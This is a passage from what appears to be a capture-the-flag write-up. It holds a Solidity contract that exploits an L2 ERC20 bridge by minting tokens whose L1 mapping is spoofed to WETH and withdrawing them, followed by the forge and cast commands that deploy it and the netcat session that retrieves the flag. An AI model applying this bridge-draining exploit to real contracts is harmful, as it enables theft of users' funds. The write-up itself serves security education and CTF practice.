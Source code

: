 ### L2 Exploit

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;
import "./L2/L2ERC20Bridge.sol";
import "./L2/standards/L2WETH.sol";
import {L2ERC20Bridge} from "./L2/L2ERC20Bridge.sol";

contract Ex2 is L2StandardERC20 {
    address L2_ERC20_BRIDGE = 0x420000000000000000000000000000000000baBe;
    address L2_WETH = payable(0xDeadDeAddeAddEAddeadDEaDDEAdDeaDDeAD0000);
    L2ERC20Bridge L2ERC20Bri;
    
    constructor() L2StandardERC20(address(0), "POCAS", "POCAS") {
        L2ERC20Bri = L2ERC20Bridge(L2_ERC20_BRIDGE);
    }

    function exploit(address WETH) public {
        l1Token = WETH;
        _mint(address(this), 2 ether);
        L2WETH(Lib_PredeployAddresses.L2_WETH).approve(L2_ERC20_BRIDGE , 2 ether);
        L2ERC20Bri.withdraw(L2_WETH, 2 ether);

        L2StandardERC20(address(this)).approve(L2_ERC20_BRIDGE , 2 ether);
        L2ERC20Bri.withdraw(address(this), 2 ether);
    }
}
```

### Result

```
> Exploit
forge create Ex2 --rpc-url $RU --private-key $PRIVATE_KEY
forge script --broadcast --rpc-url $RU --private-key $PRIVATE_KEY Solve -vv
cast send "0x1faDE8edd7079E4ECD9b22F96FFC3C6d05662090" --rpc-url $RU --private-key $PRIVATE_KEY "exploit(address)" "0xe517aE54a43ad512b0106498Ca249398ea9c4972"

❯ nc 47.251.56.125 1337
team token? 314HNMkxQs6cYkLy2HSkaw==
1 - launch new instance
2 - kill instance
3 - get flag
action? 3
rwctf{yoU_draINED_BriD6E}
```

---
## ETC
